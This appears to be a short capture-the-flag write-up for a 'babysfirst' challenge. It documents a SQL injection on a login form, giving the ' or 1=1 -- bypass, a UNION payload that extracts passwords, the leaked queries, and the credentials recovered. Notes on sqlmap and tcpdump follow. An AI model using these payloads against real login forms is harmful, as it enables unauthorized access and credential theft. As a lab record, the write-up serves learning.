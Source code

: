 # Initial screen  
	babysfirst  
	login  

	Username:  

	Password:  

# Progress  
## Injection 
There is an injection vulnerability in the login form.  
If you put ' or 1=1 -- in as your username and anything as the password it gives you the following screen.  

	babysfirst  
	success!  

	logged in as root  

The query that was executed is returned in the HTTP response headers  

	X-Sql=select name from users where name = '' or 1=1 -- ' and password = '' limit 1;  

Getting a bit further.  You can UNION the query and pull more details.  I think this may take digging into the schemas table and finding all the column names in the users table.  

	root' UNION select password as name from users where name='root' order by name asc --  	
	X-Sql=select name from users where name = 'root' UNION select password as name from users where name='root' order by name asc --' and password = '' limit 1;  

## Users/Passwords  
Using the UNION query the following users/passwords were pulled.  

	root/barking up the wrong tree  
	user/password  

## Notes from RD
I attempted to learn some sqlmap, but I think the webserver isn't answering because it didn't get a useragent, or otherwise knows it's sqlmap.
I did look at a raw tcpdump, and noticed "ec2-54-226-200-42.compute-1.amazonaws.com.http: Flags [S], cksum 0x0b4a (incorrect -> 0x4231)" Not sure if that invalid checksum is relevant or not.
